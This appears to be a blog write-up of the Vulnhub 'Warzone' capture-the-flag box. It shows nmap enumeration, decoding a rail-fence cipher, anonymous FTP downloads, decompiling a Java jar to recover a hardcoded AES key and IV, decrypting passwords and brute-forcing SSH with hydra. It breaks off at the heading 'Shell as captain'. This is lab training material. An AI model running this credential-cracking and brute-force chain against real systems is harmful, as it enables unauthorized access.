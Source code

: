 ```yaml
---
title: Vulnhub - Warzone
description: My writeup on Warzone box.
categories:
 - vulnhub
tags: vulnhub cipher rail-fence ftp java decompiler jd-gui eclipse AES hydra
---
```


![](https://i.imgur.com/KhhkGVS.png)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **Warzone**  | 
| Series :      | **Warzone**         |
| Difficulty :  | **Medium**             |   
| Release Date :| **24 Oct 2020**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [AL1ENUM](https://twitter.com/AL1ENUM){:target="_blank"}     | 
| Download :    | [Warzone](https://www.vulnhub.com/entry/warzone-1,589/){:target="_blank"}      | 

## Summary

Hello all! This box took me around 5-6 hours to pwn it for real, it's based on java stuff and i've no idea about java. I still don't know how did i pwn it haha, i guess im very lucky. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.8                                                                                                                                                                 130 ↵
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-26 19:20 EET
Nmap scan report for warzone.zte.com.cn (192.168.1.8)
Host is up (0.000095s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
5000/tcp open  upnp
MAC Address: 08:00:27:91:00:5C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.90 seconds
$ nmap -p 21,22,5000 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-26 19:20 EET
Nmap scan report for warzone.zte.com.cn (192.168.1.8)
Host is up (0.00042s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_dr-xr-xr-x    2 ftp      ftp          4096 Oct 22 12:49 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 43:30:8c:57:bc:49:68:49:9c:9a:53:e7:a9:b7:83:9f (RSA)
|   256 c9:8d:46:c8:ef:33:d2:62:21:3a:bf:95:cb:fb:44:a3 (ECDSA)
|_  256 9b:86:ff:5c:6c:61:50:d0:36:59:b0:7a:bf:77:b2:a6 (ED25519)
5000/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.7.3)
|_http-server-header: Werkzeug/1.0.1 Python/3.7.3
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

Let's start the enumeration with port 5000, if we check the source code of the main page we can see a cipher:

```
$ curl -s http://$ip:5000/ | tail -3
<!--GA DIE UHCEETASTTRNL-->
```

Tried some basic stuff like base64,rot13 etc but no luck. I fired up my favorite [Cipher Identifier](https://www.boxentriq.com/code-breaking/cipher-identifier){:target="_blank"} Lot of results, i tried them all but only 1 worked the [Rail fence cipher](https://www.boxentriq.com/code-breaking/rail-fence-cipher){:target="_blank"}!

![](https://i.imgur.com/yfJ1Ulu.png)

Tried the `GET AUTH CREDENTIALS` with lot of ways like `GET-AUTH-CREDENTIALS` but no luck, in the end was a path haha.

`http://$ip:5000/get/auth/credentials`

We can see a table with usernames & encrypted passwords:

![](https://i.imgur.com/QsWxdci.png)

Let's move now into FTP enumeration since we have anonymous allowed, we can see 2 files a `.txt` & `.jar` one. Let's download them.

```
$ wget -q ftp://$ip/pub/note.txt ; wget -q ftp://$ip/pub/warzone-encrypt.jar
```

Note.txt: `Attention, please encrypt always your password using the warzone-encrypt.jar`

The `.jar` file is a compressed version of java class files. If we run it asks from us to enter a password to encrypt it:

```
$ java -jar warzone-encrypt.jar 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Symmetric Encryption by Alienum
enter the password to encrypt : 0xatom
encrypted password : nhXDvhARNZDk54f7P/DpFg==
```

## Shell as commando

Now we need a java decompiler to move on, to understand the code of it and reverse it. I've no idea about java and stuff so i googled for one and i found this one [JD-GUI](http://java-decompiler.github.io/){:target="_blank"} You can simply install it using this command: `apt-get install jd-gui`

`decompiler` : takes a compiled application and produces source code

![](https://i.imgur.com/lQentrY.png)

There are 3 interesting stuff here:

`Main.class` has the main code that encrypt the password:

![](https://i.imgur.com/nh852zm.png)

`AES.class` has the background code that does all the job:

![](https://i.imgur.com/0xC9smk.png)

`Obfuscated.class` has the IV & the key:

![](https://i.imgur.com/rygDYTf.png)

We have to rewrite the `Main.class` & change the `AES.class` to decrypt. As i said i have no idea about java, never coded in my life but with lot of google and basic java tutorials i found the solution. Also eclipse helped me a lot, fixed my mistakes haha. 

You can download eclipse from [here](https://www.eclipse.org/downloads/packages/){:target="_blank"} Eclipse primary use is for developing java applications.

I googled for similar codes that does AES decrypt and i found the perfect example that helped me a lot! [link](https://howtodoinjava.com/java/java-security/java-aes-encryption-example/){:target="_blank"}

Let's open eclipse and create 2 classes, the Main & AES. Let's work on AES first. Copy & Paste all code until the `void init()` Also remove the `import Other.Obfuscated;` We will change this code:

```java
 public String encrypt(byte[] data) {
    try {
      this.cipher.init(1, this.key, this.iv);
      byte[] encryptData = this.cipher.doFinal(data);
      return new String(Base64.getEncoder().encode(encryptData));
    } catch (Exception ex) {
      throw new RuntimeException(ex.getMessage());
    } 
  }
```

Into this with the help of the article & eclipse that fixed the variables & added throws:

```java
 public static String decrypt(String strToDecrypt) throws InvalidKeyException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
	  cipher.init(Cipher.DECRYPT_MODE, key, iv);
	  return new String(cipher.doFinal(Base64.getDecoder().decode(strToDecrypt)));
  }
```

Now let's move into Main, that will go like this:

```java
String iv = "w4rz0n3s3cur31vv";
String key = "w4rz0n3s3cur3k3y";
AES aes = new AES(iv, 128, key);
System.out.println(AES.decrypt("GJSFBy6jihz/GbfaeOiXwtqgHe1QutGVVFlyDXbxVRo="));
System.out.println(AES.decrypt("mnKbQSV2k9UzJeTnJhoAyy4TqEryPw6ouANzIZMXF6Y="));
System.out.println(AES.decrypt("jiYMm39vW9pTr+6Z/6SafQ=="));
System.out.println(AES.decrypt("v9yjWjP7tKHLyt6ZCw5sxtktXIYm5ynlHmx+ZCI4OT4="));
System.out.println(AES.decrypt("2czKTfl/n519Kw5Ze7mVy4BsdzdzCbpRY8+BQxqnsYg="));
System.out.println(AES.decrypt("+uj9HGdnyJvkBagdB1i26M9QzsxKHUI0EFMhhfaqt2A="));
System.out.println(AES.decrypt("eTQiiMXzrM4MkSItWUegd1rZ/pOIU0JyWlLNw2oW6oo="));
System.out.println(AES.decrypt("LBN5Syc7D7Bdj7utCbmBiT7pXU+bISYj33Qzf4CmIDs="));
```

You can find full codes here: [Main.class](https://ghostbin.co/paste/kxgnz){:target="_blank"} [AES.class](https://ghostbin.co/paste/f6hz6){:target="_blank"}

Now we can get the plaintext passwords:

```
p4r4tr00per_4lw4ys_fly
sp3c1alop3rations
thr33f0rces.SF
und3rs3ay0uc4ns33
il0veCalisthen1cs
c0mmandosArentRea1.!
!c4ny0uconnect.th3d0ts
r3al_eyes_real1ze_rea1_3y3s
```

Now we save the all usernames into a file and the passwords too and we perform a brute force attack on SSH:

```
$ hydra -L usernames.txt -P passwords.txt $ip ssh

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-26 23:09:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 64 login tries (l:8/p:8), ~4 tries per task
[DATA] attacking ssh://192.168.1.7:22/
[22][ssh] host: 192.168.1.7   login: commando   password: c0mmandosArentRea1.!
```

We have shell as commando!

```
$ ssh commando@$ip

+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-++-+-+-+
   WARZONE    WARZONE    WARZONE    WARZONE    WARZONE    WARZONE
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
                 {Unauthorized access is prohibited}
commando@192.168.1.7's password: 

commando@warzone:~$ whoami;id
commando
uid=1001(commando) gid=1001(commando) groups=1001(commando)
```

## Shell as captain

